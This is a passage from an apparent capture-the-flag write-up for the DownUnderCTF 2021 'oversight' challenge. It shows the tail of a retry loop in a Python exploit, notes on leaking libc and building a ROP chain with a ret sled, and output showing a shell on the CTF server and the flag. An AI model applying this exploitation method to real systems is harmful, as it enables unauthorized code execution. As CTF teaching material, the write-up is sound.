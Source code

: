 ```python
            p.interactive()
            break
    except:
        continue
```

ASLR will pivot the stack in most cases into a random place in our buffer (however it will be stack aligned (ending in `00`), so we'll want a loop to check for crashes, timeouts, or a shell.

Within the `try:` block we'll first leak libc after being prompted for a `number:`.  This is a freebee.

Next we'll create our ROP chain; padding it with a retsled.  This will give us a better chance of getting a shell on the first try.

> Below is the longest example I could capture with multiple attempts before getting a shell.  Mostly I got a shell on the first attempt.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/oversight/oversight'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-2021.duc.tf on port 31909: Done
[*] '/pwd/datajerk/downunderctf2021/oversight/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fe8da9f5000
[+] Opening connection to pwn-2021.duc.tf on port 31909: Done
[*] libc.address: 0x7f076b693000
[+] Opening connection to pwn-2021.duc.tf on port 31909: Done
[*] libc.address: 0x7fcfe9191000
[*] Switching to interactive mode
$ cat flag.txt
DUCTF{1_sm@LL_0ver5ight=0v3rFLOW}
```
